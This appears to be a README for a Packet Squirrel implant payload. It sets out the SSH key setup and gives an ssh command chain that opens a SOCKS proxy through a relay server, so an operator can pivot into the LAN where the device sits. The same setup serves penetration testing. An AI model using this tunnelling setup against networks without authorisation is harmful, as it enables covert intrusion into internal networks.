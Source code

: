 # Squirrel SSH Proxy Pivot
___
Have you ever laid down a Squirrel and thought 'darn I really want to pivot through this network, 
but I left all my leet tools on my other machine.'

Those days are over with this payload. Using a similar method to accessing the squirrel via SSH 
we can initiate a Dynamic Port Forwarding tunnel into the target network, just adding one more 
hop (bunnies should be good at this).

    Proxy Client     Remote SSH Host     Packet Squirrel        Proxy Target
          ___              ___             (inside LAN)              ___
         /  /|            /  /|             _______                 /  /|
        /__/ |  <=====>  /__/ |   <=====>  /______/`)   <=====>    /__/ |
        |--| |           |--| |           (__[__]_)/               |--| |
        | *|/            | *|/                                     | *|/


___
### Remote SSH Configuration
___

For this payload to function properly, the following must be configured

* SSH Key based Authentication
  * Remote SSH Host
  * Packet Squirrel
* SSH Port forwarding
  * Both Hosts are required to support this

A separate SSH server is required for this payload to function. This server must be configured
to accept pubkey authentication for at least one user and contain the ssh key file on the Squirrel.
___
#### Remote SSH Server Pubkey Authentication
The configuration for the remote SSH server for pubkey authentication can be found here: https://gist.github.com/BlackPropaganda/3c50e1993014bd59905df77c2fd46869

Configuring the squirrel is similar. Just enroll the pubkey to /root/.ssh/authorized_keys. There's no need to modify the
SSHD config file since the config file does not persist between boots and pubkey authentication is enabled by default.
___
#### SSH Port Forwarding configuration on Remote SSH server

GatewayPorts and AllowTcpForwarding need to be enabled on the Remote SSH Server in order for the
proxy to function properly. More on this here https://gist.github.com/BlackPropaganda/2801c43a7754ac56b80e3d03ede29169

The Remote SSH Server will need a copy of the key generated for the Squirrel.

___
#### Squirrel SSH Pubkey Authentication

Lets create a new key for the Squirrel

    ssh-keygen -t rsa -b 1024 -f squirrel_rsa

In arming mode, run this:

    ssh-copy-id -i squirrel_rsa root@172.16.32.1

___
### Initiating the Proxy Connection
___

Copy the squirrel SSH key to the Remote SSH Server then connect to the squirrel

    ssh -L 1080:localhost:1080 $user@$remote_server_ip "ssh -i /home/sshuser/squirrel_rsa -p $lport_fwd_port -D 1080 root@127.0.0.1"

Where:
* /home/sshuser/squirrel_rsa is the SSH key generated for the Squirrel, residing on the Remote SSH Server
* 1080 is the proxy port (socks5 default)
* $user is a user with TCP forwarding enabled on the Remote SSH Server
* $remote_server_ip is the Remote SSH Server IP
* $lport_fwd_port is the Squirrels ssh server reachable by the port configured in the Payload.

Goes without saying, but use at your own risk. Don't do bad things.